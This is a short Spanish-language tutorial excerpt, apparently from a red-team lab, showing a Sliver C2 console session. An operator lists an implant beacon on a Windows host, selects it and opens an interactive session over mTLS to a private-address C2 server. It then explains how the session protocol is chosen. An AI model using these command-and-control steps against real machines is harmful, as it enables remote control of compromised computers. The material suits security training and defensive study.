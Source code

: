 ```
sliver > beacons 

 ID         Name            Transport   Hostname          Username   Operating System   Last Check-In   Next Check-In 
========== =============== =========== ================= ========== ================== =============== ===============
 33be5b78   PLEASED_ATTIC   mtls        DESKTOP-V9TDLK0   pruiz      windows/amd64      6s              1s            

sliver > use 33be5b78

[*] Active beacon PLEASED_ATTIC (33be5b78-f2da-407a-8faa-54965f38b989)

sliver (PLEASED_ATTIC) > interactive 

[*] Using beacon's active C2 endpoint: mtls://172.19.0.128:8888
[*] Tasked beacon PLEASED_ATTIC (1bbdfba3)

[*] Session 0efb5634 PLEASED_ATTIC - 172.19.0.131:50379 (DESKTOP-V9TDLK0) - windows/amd64 - Mon, 27 Nov 2023 10:57:04 CST

 sliver (PLEASED_ATTIC) > sessions 

 ID         Transport   Remote Address       Hostname          Username   Operating System   Health  
========== =========== ==================== ================= ========== ================== =========
 0efb5634   mtls        172.19.0.131:50379   DESKTOP-V9TDLK0   pruiz      windows/amd64      [ALIVE] 

```

Por defecto, la sesión se creada con el mismo protocolo de C2 que tiene el implante de beacon. Sin embargo, se puede especificar otro, para esto se recomienda la lectura de la ayuda de `interative --help`

